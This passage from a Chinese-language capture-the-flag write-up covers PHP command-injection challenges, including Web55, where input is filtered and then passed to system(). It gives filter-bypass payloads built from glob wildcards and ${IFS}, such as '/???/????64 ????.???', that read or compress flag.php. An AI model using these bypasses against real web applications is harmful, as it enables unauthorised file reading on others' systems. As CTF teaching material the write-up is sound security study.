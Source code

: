 过滤了分号，cat，tac，flag，空格，数字，*，%，<>······且不能使用反斜杠绕过

payload：

?c=ls

?c=/bin/ca?${IFS}????.php

右键查看源码得到flag









### Web55：

```php
// 你们在炫技吗？

if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){ 

​    system($c); 

  }

}else{ 

  highlight_file(__FILE__); 

} 
```

过滤了字母，<>，；，%······

因为没有过滤数字，所以我们可以利用某些包含数字的命令，例如bin目录下的base64，usr/bin/目录下的bzip2

Payload1:

?c=/???/????64 ????.???

意思是?c=/bin/base64 flag.php

Base64解码后得到flag

Payload2：

?c=/???/???/????2 ????.???

意思是/usr/bin/bzip2 flag.php，将flag.php文件压缩后下载

访问/flag.php.bz2下载得到flag

### Web56：
